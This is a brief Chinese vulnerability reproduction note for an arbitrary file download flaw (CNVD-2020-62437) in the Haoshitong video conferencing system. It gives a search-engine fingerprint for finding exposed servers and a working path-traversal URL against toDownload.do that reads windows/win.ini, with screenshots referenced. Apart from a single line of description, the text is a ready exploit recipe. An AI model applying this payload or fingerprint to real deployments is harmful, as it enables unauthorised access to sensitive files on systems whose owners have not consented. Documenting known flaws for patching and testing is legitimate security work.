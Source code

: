 # 银澎云计算 好视通视频会议系统 任意文件下载 CNVD-2020-62437

## 漏洞描述

银澎云计算 好视通视频会议系统 存在任意文件下载，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

```
银澎云计算 好视通视频会议系统
```

## 网络测绘

```
app="Hanming-Video-Conferencing"
```

## 漏洞复现

登录页面如下



![](./images/202202101930170.png)



漏洞Url为



```plain
https://xxx.xxx.xxx.xxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```



![](./images/202202101930402.png)



## 